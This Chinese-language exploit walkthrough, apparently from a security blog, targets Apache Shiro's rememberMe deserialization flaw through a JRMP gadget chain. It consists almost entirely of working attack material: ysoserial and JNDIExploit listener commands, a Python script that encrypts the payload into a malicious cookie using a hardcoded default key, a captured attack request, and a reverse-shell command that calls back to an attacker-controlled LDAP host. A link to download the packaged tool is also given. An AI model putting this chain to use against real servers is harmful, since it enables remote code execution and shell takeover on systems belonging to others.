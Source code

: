 ## shiro JRMP gadget

第一步：

```
java -cp ysoserial-0.0.6-SNAPSHOT-1.8.3.jar  ysoserial.exploit.JRMPListener 8088 CommonsBeanutils2 "ldap://ip:1389/Basic/Command/Whoami"
```

第二步:

```
 java -jar JNDIExploit-1.0-SNAPSHOT.jar -i ip
```



第三步：**修改13行key和21的主机ip和端口是第一步的主机ip和端口**

```
import sys # http11InputBuffer
import uuid
import base64
import subprocess
from Crypto.Cipher import AES


def encode_rememberme(command):

    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-1.8.3.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("4AvVhmFLUs0KTA3Kprsdag==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme("ip:8088")
    print("rememberMe={0}".format(payload.decode()))
```



第四步：**运行修改后第三步脚本**得到生成的cookie发包(某些环境可能使用burp存在问题，最好写个脚本之类的发包。)

```
rememberMe=vmWUdu7/R4y70YB6bHhacqcGLMLYDq4Pf6negfP9CyEJcp1ImtJv+1veBvuS7WxB5i/P9KRe+5qjdI2SAKWDM5LKY/0OrFP37NecjUbYUubeuN293QTNdEm1fKXWIDelGzB45ZxN6HYhLrwx8CJXBH6pHaqxvpofXWNYbnRgjfSrSqo7VIsQLngzrzm7iN62c6iqT7D6oWtQH6vFncEuCVT2o9UJCrRohpswDozdVRcoqObBI6USbSjToSj9g5Z+SzLOkWh4sqAp9DHeZ9OJho9k2grCTofPoOCxIeZ8fU68VjO8AoM7eIcu3l1pNH6wOfbtup+WfmeUv2+Cwyn4l850U9fFLRLLFmnNoILSk38tBk7h7q3hl8Cf+xKrIo21OhuyzR8GqZBEtbYT8sgloA==
```

![image-20211208130452912](https://img.sumsec.me/summersec//0u05er0ec/0u05er0ec.png)



```
GET /sip2/login HTTP/1.1
Content-Type: text/xml
User-Agent: Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cookie: rememberMe=M3GVUEJCRvGoNdd4QIMLF2K5k9OkALM4FUCAX7VIf8CoDzjvfhGGkiqDefOBvAF21SoZ38kS+/hvBoVzG8Ub++/6uNhNCFlb4sbGnjdiu4DIHcyPas5d9LLnAzrWbWPY0OO1ATuoH2i+DQddFjWJu9ToQwfDCgS+oJquqDguZsTOp5iRn5dB72+c73S1COuu5cjmmlfhPuADPq6v2NFVdHmOCipC1mj8Z8MNjIXZ+JpXi1TP4cEKufXVNE9mzDyxnzGCWr5Qo7taMQua+MpTHEPpUseASlACWHy0IxY1g5ZvI9/Kw2UY9kXdhlQM0dN4Q1O4neoSMvk/N/Muir8KeyH1FrCj+xhSxj9xSGzIOt5m5e8zjDxf7tMXWhRaPOXj7ckP4/ieI82OteoVrSQIVQ==
Host: ip


```



反弹shell：

```
java -cp ysoserial-0.0.6-SNAPSHOT-1.8.3.jar  ysoserial.exploit.JRMPListener 8088 CommonsBeanutils2 "ldap://{ip}:{port}/Basic/ReverseShell/{ip}/{port}"
```







## 工具下载地址：

[shiro-JRMP_gadget](https://github.com/SummerSec/BlogParpers/releases/download/shiro/shiro-JRMP_gadget.zip)

